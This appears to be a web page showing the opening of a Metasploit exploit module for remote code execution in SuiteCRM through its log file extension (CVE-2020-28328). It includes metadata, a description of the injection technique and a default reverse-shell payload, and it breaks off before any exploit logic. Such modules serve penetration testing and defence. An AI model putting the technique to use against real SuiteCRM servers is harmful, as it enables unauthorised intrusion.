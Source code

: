 <languages  />

MSF模块
-------

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = GoodRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Remote::CmdStager
      include Msf::Exploit::FileDropper
      prepend Msf::Exploit::Remote::AutoCheck

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'SuiteCRM Log File Remote Code Execution',
            'Description' => %q{
              This module exploits an input validation error on the log file extension parameter. It does
              not properly validate upper/lower case characters. Once this occurs, the application log file
              will be treated as a php file. The log file can then be populated with php code by changing the
              username of a valid user, as this info is logged. The php code in the file can then be executed
              by sending an HTTP request to the log file. A similar issue was reported by the same researcher
              where a blank file extension could be supplied and the extension could be provided in the file
              name. This exploit will work on those versions as well, and those references are included.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'M. Cory Billington' # @_th3y
              ],
            'References' =>
              [
                ['CVE', '2020-28328'], # First CVE
                ['EDB', '49001'], # Previous exploit, this module will cover those versions too. Almost identical issue.
                ['URL', 'https://theyhack.me/CVE-2020-28320-SuiteCRM-RCE/'], # First exploit
                ['URL', 'https://theyhack.me/SuiteCRM-RCE-2/'] # This exploit
              ],
            'Platform' => %w[linux unix],
            'Arch' => %w[ARCH_X64 ARCH_CMD ARCH_X86],
            'Targets' =>
            [
              [
                'Linux (x64)', {
                  'Arch' => ARCH_X64,
                  'Platform' => 'linux',
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x64/meterpreter_reverse_tcp'
                  }
                }
              ],
              [
                'Linux (cmd)', {